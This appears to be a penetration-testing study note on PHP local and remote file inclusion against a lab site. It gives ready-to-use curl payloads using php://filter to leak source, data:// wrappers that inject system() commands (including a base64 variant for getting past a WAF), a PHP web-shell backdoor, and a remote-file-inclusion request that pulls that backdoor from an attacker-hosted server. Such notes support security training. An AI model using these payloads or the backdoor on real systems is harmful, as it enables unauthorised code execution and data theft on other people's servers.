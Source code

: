 # Additional Attacks

## PHP Wrappers

### `php://filter`

If you see a page that doesn't include a closing `<body>` tag for reasons such as it being under maintenance, we can still pull the full page with the following modification

Given the original request

```bash
curl http://mountaindesserts.com/meteor/index.php?page=admin.php
```

We can modify it to the following

```bash
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

We can then decode the output to view the entire page even if it was originally cutoff

### `data://`

We can exploit LFI with the `data://` wrapper via the following modification

```bash
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

In the situation where we also need to circumvent a WAF, we can also base64 encode it

```bash
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

## RFI

We begin by hosting the following `simple-backdoor.php` file on a simple python http server

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

We can then exploit the RFI via the following request

```bash
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```